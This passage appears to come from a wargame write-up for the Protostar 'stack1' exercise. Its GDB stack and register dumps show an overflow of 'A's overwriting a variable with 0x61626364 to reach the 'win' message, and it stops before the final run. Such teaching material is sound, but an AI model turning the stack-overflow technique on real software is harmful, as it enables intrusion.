 ```
fs             0x0	0
gs             0x33	51
```

EAX is looking good! We can see our overflow hit the perfect location we identified before:

```
(gdb) x/30wx $esp
0xbffffc00:	0xbffffc1c	0xbffffe40	0xb7fff8f8	0xb7f0186e
0xbffffc10:	0xb7fd7ff4	0xb7ec6165	0xbffffc28	0x41414141 <--- input starts here
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc50:	0x41414141	0x41414141	0x41414141	0x61626364 <--- our flag
0xbffffc60:	0x08048400	0x00000000	0xbffffce8	0xb7eadc76
0xbffffc70:	0x00000002	0xbffffd14
```

Two more steps into the program, we see that we continue our execution flow and don't jump to the fail condition like before:

```
(gdb) ni
0x080484b0	18	in stack1/stack1.c
(gdb) ni
19	in stack1/stack1.c
(gdb) i r
eax            0x61626364	1633837924
ecx            0x0	0
edx            0x45	69
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc00	0xbffffc00
ebp            0xbffffc68	0xbffffc68
esi            0x0	0
edi            0x0	0
eip            0x80484b2	0x80484b2 <main+78>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

The EIP now points at our 'win' block, ultimately leading on to glory!

```
(gdb) c
Continuing.
you have correctly got the variable to the right value
```

We can finally run our payload into the binary outside of GDB, and we should get our win condition printed to screen:
